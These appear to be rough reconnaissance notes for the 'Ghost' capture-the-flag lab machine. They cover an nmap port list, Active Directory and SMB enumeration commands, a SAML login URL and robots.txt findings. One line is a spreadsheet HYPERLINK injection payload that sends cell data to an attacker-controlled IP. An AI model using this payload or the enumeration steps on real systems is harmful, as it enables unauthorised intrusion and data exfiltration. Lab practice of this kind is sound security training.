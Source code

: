 ## Ghost Windows Insane 

- [+]:	TargetIP
   >>	10.10.11.24



## recon 

- [] nmap scan :


53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s --sqlite
2179/tcp  open  vmrdp
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8008/tcp  open  http    --almost empty website 
8443/tcp  open  https-alt  -- federtaion.ghost.htb
9389/tcp  open  adws
49443/tcp open  unknown
49664/tcp open  unknown
49670/tcp open  unknown
49676/tcp open  unknown
57917/tcp open  unknown
60351/tcp open  unknown
60380/tcp open  unknown





-------------------------

 kerbrute userenum -d ghost.htb --dc dc01.ghost.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt 
 `rdp-sec-check.pl <FQDN/IP>` | Check the security settings of the RDP service. 
 
 
 enu4mlinux
  ====================================( Session Check on 10.10.11.24 )====================================


[+] Server 10.10.11.24 allows sessions using username '', password ''


 =================================( Getting domain SID for 10.10.11.24 )=================================

Domain Name: GHOST
Domain Sid: S-1-5-21-4084500788-938703357-3654145966




 
 
 
 1433/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RC0+
 `mssqlclient.py <user>@<FQDN/IP> -windows-auth` | Log in to the MSSQL server using Windows authentication. 
 
 senum --dnsserver <nameserver> --enum -p 0 -s 0 -o found_subdomains.txt -f ~/subdomains.list <domain.tld>
 
 rpcclient -U ""
 samrdump.py
 
 enum4linux ip -A
https://ghost.htb:8443/login

(web mail app outlook 
© 2018 Microsoft) 
https://federation.ghost.htb/adfs/ls/?SAMLRequest=nVNNj9owEP0rke%2FkCzcNFmFFw6FI2zaCtIe9rIwzWSI5duqZ7NJ%2FXyWQXQ4tB65%2BM2%2FevHlePpxa7b2Cw8aajEV%2ByB5WS5St7sS6p6PZwe8ekLxTqw2KEchY74ywEhsURraAgpTYr789itgPRecsWWU187abjD1XoaqTBFIua87nvE6lmqs0llG0SPmnZFEd0sMiVQnzfk0iYj9k3haxh61BkoYyFocxn4WfZ9G8jCMRJSJa%2BBEPn5hXXMZ9aUzVmJfb2g7nIhRfy7KYFT%2F2JfM2gNQYSePoI1GHIghqqMCNb%2F7L0SL5RzoEsqox0Bgwb40IbkBza7Bvwe3BvTYKfu4ePziUdfDRLVLO52eKwcSgs0g7wM4aBHZ2XIw7uyurb28jJxVsdWPmMrjink77Xbaw3RRWN%2BrPPadda23fcgeSIGPkemDBRH0JDFRjfHJrCE53xSe3bSddg8Nd4CQVTTZdE%2BdaIu6gvse0m2VKqIEaUBQS8c26akgaKIKqdNJgZx1drP2XntUZ%2B48d7%2Bj1F1v9BQ%3D%3D&SigAlg=http%3A%2F%2Fwww.w3.org%2F2001%2F04%2Fxmldsig-more%23rsa-sha256&Signature=sJxFUz4xuajopA7riyNXS744tpby2SpWdx9w%2BTJZ%2Bhm6g8dpZaZGoq6piSZSF23XaDjWA1dk9uAudQHkEJvCXqOruz%2FtCphBevMzQHK4P8pv5LU4yvZjHVM4IrrMCVC8mB%2Fl5YpdUwdLNgyZUwKQkzwzrsI451iWQJALhYu7lcxWA1lXpE1hkifz3rlOJrCPuPJ9BYqXOGbZUi8QvrYLX6AOAYorJRPlN1y5gDbtVikNd%2Bt383WSlG3neNgugs7z%2F357x2Nb9cB0GQPieE4mO%2B6YzFuQSqgIsntKwgWad9qxjPUUg5GTjH%2F2LG6sJlu6AQcrxlGYERBSXmwSuaJN8w%3D%3D


http://10.10.11.24:8008/robots.txt
http://10.10.11.24:8008/
"Ghost 5.78">

Target: http://ghost.htb:8008/
Total requests: 4989

=====================================================================
000000058:   307        0 L      52 W       3968 Ch     "intranet"     


=HYPERLINK("http://10.10.16.81:8000?leak="&A2&" and "&2, "Click for more")
http://ghost.htb:8008/ghost/.well-known/jwks.json

User-agent: *
Sitemap: http://ghost.htb/sitemap.xml
Disallow: /ghost/  -> http://10.10.11.24:8008/ghost/   		( GHOST ADMIN )
Disallow: /p/
Disallow: /email/
Disallow: /r/
Disallow: /webmentions/receive/

